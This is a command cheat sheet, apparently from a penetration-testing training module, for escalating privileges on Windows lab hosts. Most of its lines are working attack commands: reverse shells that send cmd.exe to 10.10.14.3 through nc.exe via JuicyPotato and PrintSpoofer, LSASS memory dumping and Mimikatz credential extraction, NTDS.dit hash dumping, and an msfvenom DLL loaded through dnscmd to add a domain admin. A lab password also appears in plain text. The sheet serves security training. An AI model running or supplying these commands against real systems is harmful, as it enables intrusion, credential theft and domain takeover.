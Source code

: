 ### Handy Commands

| **Command**                                                                                                                                                                           | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`                                                                                                                                   | Connect using mssqlclient.py                               |
| `enable_xp_cmdshell`                                                                                                                                                                  | Enable xp\_cmdshell with mssqlclient.py                    |
| `xp_cmdshell whoami`                                                                                                                                                                  | Run OS commands with xp\_cmdshell                          |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`                                                             | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`                                                                                                               | Escalating privileges with PrintSpoofer                    |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`                                                                                                                                    | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`                                                                                                                         | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                                                                                                                                                | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                                                                                                                                            | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`                                             | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`                                                                                                                         | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`                                                                                                            | Extract hashes with secretsdump.py                         |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`                                                                                                                                         | Copy files with ROBOCOPY                                   |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"`                                                                                                                      | Searching security event logs                              |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`                                                                                       | Passing credentials to wevtutil                            |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell                       |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`                                                                              | Generate malicious DLL                                     |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll`                                                                                                                                | Loading a custom DLL with dnscmd                           |
| `wmic useraccount where name="netadm" get sid`                                                                                                                                        | Finding a user's SID                                       |
| `sc.exe sdshow DNS`                                                                                                                                                                   | Checking permissions on DNS service                        |
| `sc stop dns`                                                                                                                                                                         | Stopping a service                                         |
| `sc start dns`                                                                                                                                                                        | Starting a service                                         |